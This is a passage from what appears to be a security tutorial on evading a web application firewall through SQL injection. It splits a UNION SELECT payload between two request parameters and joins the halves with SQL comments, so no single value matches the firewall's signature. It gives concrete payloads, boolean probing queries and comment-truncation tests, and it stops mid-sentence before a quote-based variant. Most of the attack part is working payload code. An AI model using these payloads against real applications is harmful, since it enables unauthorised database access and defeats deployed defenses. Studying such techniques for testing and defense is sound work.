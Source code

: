 This should confirm that we indeed have both the parameters being used in single query. If we can't see the error messages, then you can play around with some boolean conditions to judge this. For instance, the results of

```sql
SELECT * FROM payslips WHERE year='2010' OR 1=1 AND month='March' AND 1=2
```

should be different from

```sql
SELECT * FROM payslips WHERE year='2010' AND 1=2 AND month='March' OR 1=1
```

You can also use SQL comments. Results of

```sql
SELECT * FROM payslips WHERE year='2010' AND month='March' --
```

should be different from

```sql
SELECT * FROM payslips WHERE year='2010' -- AND month='March'
```

There should be other methods too. You just need to think creatively.

### The Attack

By now the requirements and examples used above should clear some air around this attack. The crux of this attack is to **divide the payload** between two parameters. By doing so, WAF will not be able to detect SQL Injection signatures in value of any parameter, thus bypassing the WAF.

Let's assume following parameters are being blocked by WAF:

```json
{
    "year" : "2010",
    "month" : "March' AND 1=2 UNION SELECT 1,2 -- "
}
```

After a lot of hit and trial, we noticed that WAF blocks the request when a parameter's value matches `' ... UNION SELECT ...`. We already know both `year` and `month` is being used in the query. We can split our payload in these parameters. Look at following parameters:

```json
{
    "year" : "2010' AND 1=2 UNION /*",
    "month" : "*/ SELECT 1,2 -- "
}
```

With these values, the query would effectively look like:

```sql
SELECT * FROM payslips WHERE year='2010' AND 1=2 UNION /* AND month='*/ SELECT 1,2 -- '
```

Notice how multi-line comment is cleverly used to our advantage. None of our parameters now match the `' ... UNION SELECT ...` pattern, thus the request would pass through the WAF. If SQL comments (`/*` or `*/`) is blocked by WAF then you can use open ended quotes to enclose part of the query we would have commented. The parameters should look like this:

